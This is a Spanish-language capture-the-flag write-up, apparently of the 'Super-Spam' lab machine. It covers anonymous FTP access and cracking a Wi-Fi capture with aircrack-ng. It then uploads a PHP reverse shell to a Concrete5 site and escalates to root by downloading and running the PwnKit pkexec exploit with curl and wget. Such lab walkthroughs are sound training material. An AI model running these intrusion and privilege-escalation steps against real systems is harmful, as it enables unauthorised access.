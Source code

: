 ### Tags: `aircrack-ng` `FTP` `Concrete5` `pkexec`

# Escaneo (*80, 4012, 6001, 4019, 5901*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn <IP> -oN escaneo
```

![image](https://github.com/user-attachments/assets/eb8f0f3e-97ed-456a-86a0-bb2d1f86a74b)
![image](https://github.com/user-attachments/assets/9fba341a-2568-459a-90f6-fa4d207505e6)

# Port 4019 `->` *FTP*

Nos conectamos por ftp como `anonymous` 

```ruby
 ftp <IP> -p 4019
```

Nos traemos todo lo que haya para nuestra maquina de esta manera

![image](https://github.com/user-attachments/assets/51563bb0-de21-4b94-959e-5dbe901c06ed)
![image](https://github.com/user-attachments/assets/b7196fe6-1051-40d0-9068-e44d82721810)


Vemos que nos transferimos los 3 archivos 

![image](https://github.com/user-attachments/assets/56bfdc23-61ce-4174-9ccc-5e1aa4e7fbe9)

### Note.txt

El archivo `note.txt` dice básicamente dice que han incluido los archivos **Wireshark** para registrar toda la actividad inusual y un posible user `adam`

```txt
12th January: Note to self. Our IDS seems to be experiencing high volumes of unusual activity.
We need to contact our security consultants as soon as possible. I fear something bad is going
to happen. -adam

13th January: We've included the wireshark files to log all of the unusual activity. It keeps
occuring during midnight. I am not sure why.. This is very odd... -adam

15th January: I could swear I created a new blog just yesterday. For some reason it is gone... -adam

24th January: Of course it is... - super-spam :)
```

### Quicknote.txt

Después tenemos el archivo `.quicknote.txt`, que dice que dejó un archivo `.cap` para recordar como había entrado

```txt
It worked... My evil plan is going smoothly.
 I will place this .cap file here as a souvenir to remind me of how I got in...
 Soon! Very soon!
 My Evil plan of a linux-free galaxy will be complete.
 Long live Windows, the superior operating system!
```

### SamsNetwork.cap

Como vimos en la pistas, tenemos el archivo `.cap` y  se trata de un ataque de captura de datos de un ataque wifi, por ende lo tenemos que descifrar con `aircrack` de esta forma

```ruby
aircrack-ng SamsNetwork.cap -w /usr/share/wordlists/rockyou.txt 
```

![image](https://github.com/user-attachments/assets/06ee248e-f703-4ae2-a800-24cb0945cd80)

# Port 80

Ahora **enumeramos** el puerto 80 de la maquina, observamos que es un CMS `concrete5 8.5.2`, agregamos al **/etc/hosts** `superspam.thm`

![image](https://github.com/user-attachments/assets/0ec00e07-540b-4e33-a8e7-17521cf6340c)

En la web encontramos **posibles usuarios** ya que había posts en donde figuraban sus nombre, enumeramos estos:

```txt
Benjamin_Blogger
Lucy_Loser 
Donald_Dump 
Adam_Admin
```

Investigando el web encontramos ``un panel de login``, entonces vamos a probar con los **usuarios que encontramos** y con la contraseña `sandiago` que rompimos con **aircrack-ng**
- Después de loguearnos como `Donald_Dump:sandiago`  tenemos esta web:

![image](https://github.com/user-attachments/assets/2d84a276-1b54-4915-8851-8efd4a4fd637)

Ahora lo que hacemos es poner `http://<IP>` y clickear en un de estas imágenes

![image](https://github.com/user-attachments/assets/72755bf1-17e5-4b9b-9073-1064e3c15f78)

Ahora nos vamos a acá **-->** (que esta arriba ala derecha)

![image](https://github.com/user-attachments/assets/6a534623-f674-4642-8bef-abe50d58c8eb)

Nos aparecerá esto:

![image](https://github.com/user-attachments/assets/a144177d-722b-4f63-9220-dcf4091c1086)

Antes hacer esto para poder subir un ReverseShell en php porque sino no te deja 

![image](https://github.com/user-attachments/assets/d9604a01-149a-4b11-a136-5c5290d9f840)

Ahora lo que hacemos es subir un `reverseShell` en PHP [PentestMonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php) y lo subimos a donde dice `Upload Files`. (Antes de subirlo nos ponemos en escucha con `netcat`)

![image](https://github.com/user-attachments/assets/cb638d8f-fedf-45a2-8bad-af4a5f51a3cf)

Clickeamos en donde esta nuestra `reverseShell` 

![image](https://github.com/user-attachments/assets/29abbf28-7bbe-4c2d-a3ad-a4ccaf797320)

Y estamos dentro! 

![image](https://github.com/user-attachments/assets/c537bc17-13b4-498e-a76b-17eedc345f71)

Hacemos el tratamiento de la ``TTY``

```ruby
script /dev/null -c bash
Ctrl + z
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 42 columns 189
```


# Escalada `ROOT`

Buscando privilegios SUID encontramos el `pkexec`

![image](https://github.com/user-attachments/assets/44feef73-2d02-4a07-9055-48f44de1292a)

Para explotarlo se hace de esta forma `--->` Enlace: [PwnKit_GitHub](https://github.com/ly4k/PwnKit)

```ruby
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit

#Lo compartimos a la maquina víctima
python3 -m http.server
```

![image](https://github.com/user-attachments/assets/c56c85f3-df72-4ac8-a1ba-1b274d7aaba6)

Ahora con `wget` nos traemos el **PwnKit**, le damos permisos de ejecución y listo somo `ROOT`

![image](https://github.com/user-attachments/assets/cd742d33-c123-4293-8893-0058c0a27742)
